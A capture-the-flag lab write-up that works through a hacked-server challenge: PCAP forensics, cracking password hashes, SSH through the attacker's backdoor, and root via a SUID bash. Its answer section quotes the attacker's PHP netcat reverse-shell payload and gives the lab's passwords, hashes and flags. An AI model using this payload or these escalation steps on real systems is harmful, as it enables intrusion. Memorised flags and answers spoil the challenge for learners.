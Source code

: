 ---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
1. What was the URL of the page they used to upload a reverse shell? -> /development/ <br>
2. What payload did the attacker use to gain access? -> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
3. What password did the attacker use to privesc? -> whenevernoteartinstant
4. How did the attacker establish persistence? -> https://github.com/NinjaJc01/ssh-backdoor
5. Using the fasttrack wordlist, how many of the system passwords were crackable? -> 4
6. What's the default hash for the backdoor? -> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
7. What's the hardcoded salt for the backdoor? -> 1c362db832f3f864c8c2fe05f2002a05
8. What was the hash that the attacker used? - go back to the PCAP for this! -> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? -> november16
10.  The attacker defaced the website. What message did they leave as a heading? -> H4ck3d by CooctusClan
11. What's the user flag? -> thm{d119b4fa8c497ddb0525f7ad200e6567}
12. What's the root flag? -> thm{d53b2684f169360bb9606c333873144d}

</details>

